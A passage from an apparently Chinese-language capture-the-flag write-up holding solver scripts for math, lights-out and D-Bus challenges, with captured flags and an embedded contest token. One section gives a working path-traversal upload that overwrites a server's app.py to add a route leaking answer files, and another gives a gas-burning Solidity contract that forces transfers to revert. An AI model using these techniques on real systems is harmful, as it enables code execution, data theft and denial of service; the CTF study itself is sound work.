                os.remove(path)
            except FileNotFoundError:
                pass

    atexit.register(clean)


bp: flask.Blueprint = flask.Blueprint('answer_b', __name__)


@bp.get('/answer_b.py')
def get() -> flask.Response:
    return flask.Response(xzrj_bytes, content_type='text/plain; charset=UTF-8')


@bp.post('/answer_b.py')
def post() -> flask.Response:
    wrong_hints = {}
    req_lines = flask.request.get_data().splitlines()
    iterator = enumerate(itertools.zip_longest(paths, req_lines), start=1)
    for index, (path, req_row) in iterator:
        if path is None:
            wrong_hints[index] = 'Too many lines for request data'
            break
        if req_row is None:
            wrong_hints[index] = 'Too few lines for request data'
            continue
        req_row_hash = hash_func(req_row)
        req_row_path = base64.b85encode(req_row_hash) + b'.txt'
        if not os.path.exists(req_row_path):
            wrong_hints[index] = f'Unmatched hash ({req_row_hash.hex()})'
            continue
        with open(req_row_path, 'rb') as pf:
            row = pf.read()
            if len(req_row) != len(row):
                wrong_hints[index] = f'Unmatched length ({len(req_row)})'
                continue
            unmatched = [req_b for b, req_b in zip(row, req_row) if b != req_b]
            if unmatched:
                wrong_hints[index] = f'Unmatched data (0x{unmatched[-1]:02X})'
                continue
            if path != req_row_path:
                wrong_hints[index] = f'Matched but in other lines'
                continue
    if wrong_hints:
        return {'wrong_hints': wrong_hints}, 400
    with open('answer_b.txt', 'rb') as af:
        answer_flag = base64.b85decode(af.read()).decode()
        closing, opening = answer_flag[-1:], answer_flag[:5]
        assert closing == '}' and opening == 'flag{'
        return {'answer_flag': answer_flag}, 200

```



自己改

7结尾开头都是B，共49长度

下面几行可以用上一题的解决，想办法找到第7行



似乎只知道爆破（），想不到数学方法

没做出来


# 优雅的不等式

## 1

参考链接[https://zhuanlan.zhihu.com/p/669285539?utm_psn=1836174236823187456](https://zhuanlan.zhihu.com/p/669285539?utm_psn=1836174236823187456)

4*((1-x**2)**(1/2)-(1-x))

x*(1-x)*(4-2*x+2*x*x)/(1+x*x)

[https://www.wolframalpha.com/input?i2d=true&i=Integrate%5BDivide%5BPower%5Bx%2C4%5D+%5C%2840%29a%2BbSquare%5Bx%5D%5C%2841%29%2C1%2BPower%5Bx%2C2%5D%5D%2C%7Bx%2C0%2C1%7D%5D](https://www.wolframalpha.com/input?i2d=true&i=Integrate%5BDivide%5BPower%5Bx%2C4%5D+%5C%2840%29a%2BbSquare%5Bx%5D%5C%2841%29%2C1%2BPower%5Bx%2C2%5D%5D%2C%7Bx%2C0%2C1%7D%5D)



## 2

```Plain Text
import sympy as sp
import multiprocessing as mp
import numpy as np

x = sp.Symbol('x')

def solve_equations(n, p, q):
    a, b, c = sp.symbols('a b c')
    integrand = x**n * (1-x)**n * (a + b*x + c*x**2) / (1 + x**2)
    integral = sp.integrate(integrand, (x, 0, 1))
    result = sp.collect(integral.expand(), (a, b, c))

    coeff_pi = [result.coeff(var).coeff(sp.pi) for var in (a, b, c)]
    coeff_ln2 = [result.coeff(var).coeff(sp.log(2)) for var in (a, b, c)]
    coeff_const = [result.coeff(var).as_coeff_add(sp.pi, sp.log(2))[0] for var in (a, b, c)]

    A = sp.Matrix([coeff_pi, coeff_ln2, coeff_const])
    B = sp.Matrix([1, 0, -sp.Rational(p, q)])

    try:
        solution = A.inv() * B
        return solution[0], solution[1], solution[2]
    except:
        return None

def quick_check_positivity(f, num_points=100):
    x_values = np.linspace(0, 1, num_points)
    y_values = [float(f.subs(x, xi)) for xi in x_values]
    return all(y >= 0 for y in y_values)

def check_positivity(f, domain):
    return sp.solveset(f < 0, x, domain) == sp.EmptySet

def process_n(args):
    n, p, q = args
    print(f"Processing n={n}")
    solution = solve_equations(n, p, q)
    if solution is None:
        return None
    a, b, c = solution
    f = x**n * (1-x)**n * (a + b*x + c*x**2) / (1 + x**2)
    if quick_check_positivity(f):
        if check_positivity(f, sp.Interval(0, 1)):
            return f"{x}**{n}*(1-x)**{n}*({a}+{b}*x+{c}*x*x)/(1+x*x)"
    return None

def get_f(p, q):
    with mp.Pool() as pool:
        results = pool.imap_unordered(process_n, ((n, p, q) for n in range(1, 100)))
        for result in results:
            if result is not None:
                return result
    raise ValueError("No suitable function found")

def main():
    allowed_chars = "0123456789+-*/()x"
    max_len = 400

    a = (2**(39 * 5))
    q = sp.randprime(a, a * 2)
    p = sp.floor(sp.pi * q)

    p = sp.Integer(p)
    q = sp.Integer(q)

    if q != 1:
        print(f"Please prove that pi>={p}/{q}")
    else:
        print(f"Please prove that pi>={p}")

    f = get_f(p, q)

    assert len(f) <= max_len, len(f)
    assert set(f) <= set(allowed_chars), set(f)
    assert "//" not in f, "floor division is not allowed"
    f = sp.parsing.sympy_parser.parse_expr(f)
    assert f.free_symbols <= {x}, f.free_symbols

    # Check if the integral is equal to pi - p/q
    integrate_result = sp.integrate(f, (x, 0, 1))
    assert integrate_result == sp.pi - p / q, integrate_result

    print("Q.E.D.")

if __name__ == "__main__":
    mp.freeze_support()  # This line is crucial for Windows
    main()

```

优化查找起点

```Plain Text
from pwn import *
import sympy as sp
import multiprocessing as mp
import numpy as np
import logging
import time

# 配置logging
logging.basicConfig(level=logging.DEBUG, format='%(asctime)s - %(levelname)s - %(message)s')

x = sp.Symbol('x')

def solve_equations(n, p, q):
    a, b, c = sp.symbols('a b c')
    integrand = x**n * (1-x)**n * (a + b*x + c*x**2) / (1 + x**2)
    integral = sp.integrate(integrand, (x, 0, 1))
    result = sp.collect(integral.expand(), (a, b, c))

    coeff_pi = [result.coeff(var).coeff(sp.pi) for var in (a, b, c)]
    coeff_ln2 = [result.coeff(var).coeff(sp.log(2)) for var in (a, b, c)]
    coeff_const = [result.coeff(var).as_coeff_add(sp.pi, sp.log(2))[0] for var in (a, b, c)]

    A = sp.Matrix([coeff_pi, coeff_ln2, coeff_const])
    B = sp.Matrix([1, 0, -sp.Rational(p, q)])

    try:
        solution = A.inv() * B
        return solution[0], solution[1], solution[2]
    except:
        return None

def quick_check_positivity(f, num_points=100):
    x_values = np.linspace(0, 1, num_points)
    y_values = [float(f.subs(x, xi)) for xi in x_values]
    return all(y >= 0 for y in y_values)

def check_positivity(f, domain):
    return sp.solveset(f < 0, x, domain) == sp.EmptySet

def process_n(args):
    n, p, q = args
    # logging.debug(f"Processing n={n}")
    solution = solve_equations(n, p, q)
    if solution is None:
        return None, n
    a, b, c = solution
    f = x**n * (1-x)**n * (a + b*x + c*x**2) / (1 + x**2)
    if quick_check_positivity(f):
        if check_positivity(f, sp.Interval(0, 1)):
            return f"{x}**{n}*(1-x)**{n}*({a}+{b}*x+{c}*x*x)/(1+x*x)", n
    return None, n

def get_f(p, q, start_n):
    with mp.Pool(processes=8) as pool:
        results = pool.imap(process_n, ((n, p, q) for n in range(start_n, 200)))
        for result in results:
            if result[0] is not None:
                func, n = result  # 解包返回的结果
                return func, n  # 返回有效的函数表达式和 n
    raise ValueError("No suitable function found")


def main():
    start_time = time.time()  # 记录开始时间
    r = remote('202.38.93.141', 14514)
    token = b'665:MEUCIBEcZ8UFMVmUlNLKvGCMMalriao26rONLNtyYffafRmuAiEAhfVMgH4DvFAYtwFgoWwk1zwkOf/GQAIbPH8x2Y04hPI='
    r.sendlineafter('Please input your token:', token)
    id = 1
    start_n = 1
    last_n = 1
    bias = 0
    while True:
        try:
            data = r.recvline()
            if data:
                logging.info(data.decode().strip())
                res = data.decode().replace("\n", "")
                if not "Please prove that" in res:
                    continue
                num = res.split('=')[-1]
                if '/' in res:
                    p, q = num.split('/')
                    p = int(p)
                    q = int(q)
                    logging.debug(f"p={p}, q={q}")
                if id == 1:
                    logging.info("第一次发送")
                    r.sendline('4*((1-x**2)**(1/2)-(1-x))')
                elif id == 2:
                    logging.info("第二次发送")
                    r.sendline('x*(1-x)*(4-2*x+2*x*x)/(1+x*x)')
                else:
                    if bias < 5:
                        bias = 5
                    start_n = bias - 2 + id
                    f, n = get_f(p, q, start_n)
                    bias = n - id
                    logging.info(f"n{n} bias：{bias} 第{id}次发送")
                    end_time = time.time()  # 记录结束时间
                    logging.info(f"脚本运行时间: {end_time - start_time:.2f} 秒")
                    r.sendline(f)
                id += 1
            else:
                break
        except EOFError:
            break
    # 接收剩下
    data = r.recvall()
    logging.info(data.decode().strip())
    # 关闭连接
    r.close()
    end_time = time.time()  # 记录结束时间
    logging.info(f"脚本运行时间: {end_time - start_time:.2f} 秒")

if __name__ == "__main__":
    mp.freeze_support()  # This line is crucial for Windows
    main()
```

flag{y0u_ar3_7he_Ramanujan_0f_in3quality_6297b177c6}




# 关灯

本题全是o1帮我生成的（）

## easy

```Plain Text
from pwn import *
import numpy as np

def create_matrix(n):
    size = n**3
    A = np.zeros((size, size), dtype=np.int32)

    for i in range(n):
        for j in range(n):
            for k in range(n):
                current = i * (n * n) + j * n + k
                # Current position
                A[current][current] = 1

                # Check all 6 neighbors
                neighbors = [
                    (i-1, j, k),
                    (i+1, j, k),
                    (i, j-1, k),
                    (i, j+1, k),
                    (i, j, k-1),
                    (i, j, k+1)
                ]

                for ni, nj, nk in neighbors:
                    if 0 <= ni < n and 0 <= nj < n and 0 <= nk < n:
                        neighbor_idx = ni * (n * n) + nj * n + nk
                        A[current][neighbor_idx] = 1

    return A

def gauss_elimination_mod2(A, b):
    m, n = A.shape
    A = A.copy()
    b = b.copy()
    x = np.zeros(n, dtype=np.int32)

    # Forward elimination
    for i in range(m):
        # Find pivot
        pivot_row = i
        while pivot_row < m and A[pivot_row, i] == 0:
            pivot_row += 1

        if pivot_row == m:
            continue

        # Swap rows if necessary
        if pivot_row != i:
            A[i], A[pivot_row] = A[pivot_row].copy(), A[i].copy()
            b[i], b[pivot_row] = b[pivot_row], b[i]

        # Eliminate below
        for j in range(i + 1, m):
            if A[j, i] == 1:
                A[j] ^= A[i]
                b[j] ^= b[i]

    # Back substitution
    for i in range(m-1, -1, -1):
        if A[i, i] == 1:
            x[i] = b[i]
            for j in range(i):
                if A[j, i] == 1:
                    b[j] ^= x[i]

    return x

def solve_lights_out(lights_binary, n=3):
    # Convert binary string to numpy array
    b = np.array([int(x) for x in lights_binary], dtype=np.int32)

    # Create coefficient matrix
    A = create_matrix(n)

    # Solve system of equations in GF(2)
    solution = gauss_elimination_mod2(A, b)

    return solution

# Connect to remote service
p = remote('202.38.93.141', 10098)
token = b'665:MEUCIBEcZ8UFMVmUlNLKvGCMMalriao26rONLNtyYffafRmuAiEAhfVMgH4DvFAYtwFgoWwk1zwkOf/GQAIbPH8x2Y04hPI='
p.sendlineafter(b'Please input your token:', token)

# Send difficulty level
diff = 1
p.sendlineafter(b'Enter difficulty level (1~4): ', str(diff).encode())

# Get initial state
msg = p.recvline()
lights_binary = msg.decode().strip()
print(f"Received lights_binary: {lights_binary}")

# Solve the puzzle
solution = solve_lights_out(lights_binary)
if solution is not None:
    switch_str = ''.join(map(str, solution.astype(int)))
    print(f"Switch solution: {switch_str}")
    p.sendlineafter(b'Enter your answer: ', switch_str.encode())

    # Get server response
    output = p.recvall(timeout=2)
    print(f"Server response:\n{output.decode()}")
else:
    print("Failed to find a solution.")

p.close()
```



## medium

```Plain Text
from pwn import *
import numpy as np

def create_matrix(n):
    size = n**3
    A = np.zeros((size, size), dtype=np.int32)

    for i in range(n):
        for j in range(n):
            for k in range(n):
                current = i * (n * n) + j * n + k
                # Current position
                A[current][current] = 1

                # Check all 6 neighbors
                neighbors = [
                    (i-1, j, k),
                    (i+1, j, k),
                    (i, j-1, k),
                    (i, j+1, k),
                    (i, j, k-1),
                    (i, j, k+1)
                ]

                for ni, nj, nk in neighbors:
                    if 0 <= ni < n and 0 <= nj < n and 0 <= nk < n:
                        neighbor_idx = ni * (n * n) + nj * n + nk
                        A[current][neighbor_idx] = 1

    return A

def gauss_elimination_mod2(A, b):
    m, n = A.shape
    A = A.copy()
    b = b.copy()
    x = np.zeros(n, dtype=np.int32)

    # Forward elimination
    for i in range(m):
        # Find pivot
        pivot_row = i
        while pivot_row < m and A[pivot_row, i] == 0:
            pivot_row += 1

        if pivot_row == m:
            continue

        # Swap rows if necessary
        if pivot_row != i:
            A[i], A[pivot_row] = A[pivot_row].copy(), A[i].copy()
            b[i], b[pivot_row] = b[pivot_row], b[i]

        # Eliminate below
        for j in range(i + 1, m):
            if A[j, i] == 1:
                A[j] ^= A[i]
                b[j] ^= b[i]

    # Back substitution
    for i in range(m-1, -1, -1):
        if A[i, i] == 1:
            x[i] = b[i]
            for j in range(i):
                if A[j, i] == 1:
                    b[j] ^= x[i]

    return x

def solve_lights_out(lights_binary, n=5):  # Changed default n to 5 for medium difficulty
    # Convert binary string to numpy array
    b = np.array([int(x) for x in lights_binary], dtype=np.int32)

    # Create coefficient matrix
    A = create_matrix(n)

    # Solve system of equations in GF(2)
    solution = gauss_elimination_mod2(A, b)

    # Verify solution
    result = (A @ solution) % 2
    if not np.array_equal(result, b):
        print("Warning: Solution verification failed")

    return solution

# Connect to remote service
p = remote('202.38.93.141', 10098)
token = b'665:MEUCIBEcZ8UFMVmUlNLKvGCMMalriao26rONLNtyYffafRmuAiEAhfVMgH4DvFAYtwFgoWwk1zwkOf/GQAIbPH8x2Y04hPI='
p.sendlineafter(b'Please input your token:', token)

# Send difficulty level - Medium (2)
diff = 2
p.sendlineafter(b'Enter difficulty level (1~4): ', str(diff).encode())

# Get initial state
msg = p.recvline()
lights_binary = msg.decode().strip()
print(f"Received lights_binary: {lights_binary}")

# Solve the puzzle
solution = solve_lights_out(lights_binary)
if solution is not None:
    switch_str = ''.join(map(str, solution.astype(int)))
    print(f"Switch solution: {switch_str}")
    p.sendlineafter(b'Enter your answer: ', switch_str.encode())

    # Get server response
    output = p.recvall(timeout=2)
    print(f"Server response:\n{output.decode()}")
else:
    print("Failed to find a solution.")

p.close()
```



## hard

```Plain Text
from pwn import *
import numpy as np
from scipy.sparse import csr_matrix, lil_matrix

def create_matrix(n):
    size = n**3
    A = np.zeros((size, size), dtype=np.int32)

    for i in range(n):
        for j in range(n):
            for k in range(n):
                current = i * (n * n) + j * n + k
                # Current position
                A[current][current] = 1

                # Check all 6 neighbors
                neighbors = [
                    (i-1, j, k),
                    (i+1, j, k),
                    (i, j-1, k),
                    (i, j+1, k),
                    (i, j, k-1),
                    (i, j, k+1)
                ]

                for ni, nj, nk in neighbors:
                    if 0 <= ni < n and 0 <= nj < n and 0 <= nk < n:
                        neighbor_idx = ni * (n * n) + nj * n + nk
                        A[current][neighbor_idx] = 1
    return A

def gauss_elimination_mod2(A, b):
    m, n = A.shape
    A = A.copy()
    b = b.copy()
    x = np.zeros(n, dtype=np.int32)

    # Forward elimination with progress tracking
    for i in range(m):
        if i % 100 == 0:
            print(f"Processing row {i}/{m}")

        # Find pivot
        pivot_row = i
        while pivot_row < m and A[pivot_row, i] == 0:
            pivot_row += 1

        if pivot_row == m:
            continue

        # Swap rows if necessary
        if pivot_row != i:
            A[i], A[pivot_row] = A[pivot_row].copy(), A[i].copy()
            b[i], b[pivot_row] = b[pivot_row], b[i]

        # Eliminate below
        for j in range(i + 1, m):
            if A[j, i] == 1:
                A[j] ^= A[i]
                b[j] ^= b[i]

    # Back substitution
    for i in range(m-1, -1, -1):
        if A[i, i] == 1:
            x[i] = b[i]
            for j in range(i):
                if A[j, i] == 1:
                    b[j] ^= x[i]

    return x

def solve_lights_out(lights_binary, n=11):
    print(f"Starting to solve {n}x{n}x{n} lights out puzzle...")

    # Convert binary string to numpy array
    b = np.array([int(x) for x in lights_binary], dtype=np.int32)

    # Create coefficient matrix
    print("Creating coefficient matrix...")
    A = create_matrix(n)
    print("Matrix created. Starting Gaussian elimination...")

    # Solve system of equations in GF(2)
    solution = gauss_elimination_mod2(A, b)
    print("Gaussian elimination completed. Verifying solution...")

    # Verify solution
    result = (A @ solution) % 2
    if not np.array_equal(result, b):
        print("Warning: Solution verification failed")
    else:
        print("Solution verified successfully!")

    return solution

# Connect to remote service
print("Connecting to remote service...")
p = remote('202.38.93.141', 10098)
token = b'665:MEUCIBEcZ8UFMVmUlNLKvGCMMalriao26rONLNtyYffafRmuAiEAhfVMgH4DvFAYtwFgoWwk1zwkOf/GQAIbPH8x2Y04hPI='
p.sendlineafter(b'Please input your token:', token)

# Send difficulty level - Hard (3)
diff = 3
print(f"Setting difficulty level to {diff}...")
p.sendlineafter(b'Enter difficulty level (1~4): ', str(diff).encode())

# Get initial state
msg = p.recvline()
lights_binary = msg.decode().strip()
print(f"Received lights_binary of length {len(lights_binary)}")

# Solve the puzzle
solution = solve_lights_out(lights_binary)
if solution is not None:
    switch_str = ''.join(map(str, solution.astype(int)))
    print(f"Solution found! Length: {len(switch_str)}")
    p.sendlineafter(b'Enter your answer: ', switch_str.encode())

    # Get server response
    print("Waiting for server response...")
    output = p.recvall(timeout=2)
    print(f"Server response:\n{output.decode()}")
else:
    print("Failed to find a solution.")

p.close()
```




# 禁止内卷

上传恶意文件覆盖app.py

然后改路由下载json

```Plain Text
import base64
import requests
import time

# 禁用SSL警告
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# CTF服务器地址
BASE_URL = 'https://chal02-26fc9773.hack-challenge.lug.ustc.edu.cn:8443/'

# 恶意的app.py内容，添加一个/flag路由
malicious_app_py = '''
from flask import Flask, jsonify
import base64

app = Flask(__name__)

@app.route('/flag')
def flag():
    try:
        # 读取 results.json 并进行 Base64 编码
        with open("results.json", "rb") as f:
            results_base64 = base64.b64encode(f.read()).decode('utf-8')

        # 读取 answers.json 并进行 Base64 编码
        with open("answers.json", "rb") as f:
            answers_base64 = base64.b64encode(f.read()).decode('utf-8')

        return jsonify({
            "results_base64": results_base64,
            "answers_base64": answers_base64
        }), 200
    except Exception as e:
        return jsonify({"error": str(e)}), 500
'''

def upload_malicious_file():
    files = {
        'file': ('../web/app.py', malicious_app_py)
    }
    try:
        response = requests.post(BASE_URL + 'submit', files=files, verify=False)
        if '评测成功' in response.text:
            print("[+] 恶意文件上传成功。")
            return True
        else:
            print("[-] 恶意文件上传失败。请检查路径遍历是否有效。")
            return True
    except Exception as e:
        print(f"[-] 上传过程中出现异常: {e}")
        return False

def get_flag():
    try:
        response = requests.get(BASE_URL + 'flag', verify=False)
        if response.status_code == 200:
            data = response.json()
            results_base64 = data.get("results_base64")
            answers_base64 = data.get("answers_base64")

            # 解码 results.json
            results_json = base64.b64decode(results_base64).decode('utf-8')
            # 写入本地
            with open("results.json", "w") as f:
                f.write(results_json)
            print("[+] results.json已保存到本地。")

            # 解码 answers.json
            answers_json = base64.b64decode(answers_base64).decode('utf-8')
            # 写入本地
            with open("answers.json", "w") as f:
                f.write(answers_json)
            print("[+] answers.json已保存到本地。")
        else:
            print(f"[-] 访问/flag路由失败，状态码: {response.status_code}")
            print(f"内容: {response.text}")
    except Exception as e:
        print(f"[-] 获取flag时出现异常: {e}")

if __name__ == "__main__":
    print("[*] 开始上传恶意文件...")
    if upload_malicious_file():
        print("[*] 等待Flask应用重新加载...")
        time.sleep(5)  # 等待5秒确保应用重载
        print("[*] 尝试获取flag...")
        get_flag()
    else:
        print("[-] 无法继续，恶意文件上传失败。")

```

处理answer.json

flag{uno!!!!_esrever_now_U_run_MY_c0deb66b153979}



# 链上转账助手

1



flag{Tr4nsf3r_T0_c0nTracT_MaY_R3v3rt_feafb80208}

2

```Plain Text
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Malicious {
    receive() external payable {
        // 消耗尽可能多的 gas
        for (uint256 i = 0; i < 1000000; i++) {
            // 执行无操作循环，消耗 gas
            // 你也可以在这里加入更多的计算以消耗更多的 gas
            uint256 temp = i * i;
        }
    }
}

```



flag{Ple4se_L1m1t_y0uR_GAS_HaHa_9a6996f0ab}

3

```Plain Text

```

# 不太软的分布总线

本题全是o1帮我生成的（）

```Plain Text
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag1"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    // 连接到系统总线
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("无法连接到系统总线: %s\n", error->message);
        g_error_free(error);
        return EXIT_FAILURE;
    }

    // 创建参数，传递字符串 "Please give me flag1"
    GVariant *params = g_variant_new("(s)", "Please give me flag1");

    // 调用 D-Bus 方法
    result = g_dbus_connection_call_sync(
        connection,
        DEST,        // 目标服务名
        OBJECT_PATH, // 对象路径
        INTERFACE,   // 接口名
        METHOD,      // 方法名
        params,      // 参数
        G_VARIANT_TYPE("(s)"), // 期望的返回类型
        G_DBUS_CALL_FLAGS_NONE,
        -1,          // 默认超时
        NULL,
        &error
    );

    if (result) {
        gchar *flag;
        g_variant_get(result, "(&s)", &flag);
        printf("Flag1: %s\n", flag);
        g_variant_unref(result);
    } else {
        g_printerr("调用 D-Bus 方法失败: %s\n", error->message);
        g_error_free(error);
        g_object_unref(connection);
        return EXIT_FAILURE;
    }

    g_object_unref(connection);
    return EXIT_SUCCESS;
}

```


```Plain Text
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag2"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;
    GUnixFDList *fd_list;
    GUnixFDList *out_fd_list = NULL; // 用于接收返回的文件描述符列表
    gint fd_index;

    // 创建管道
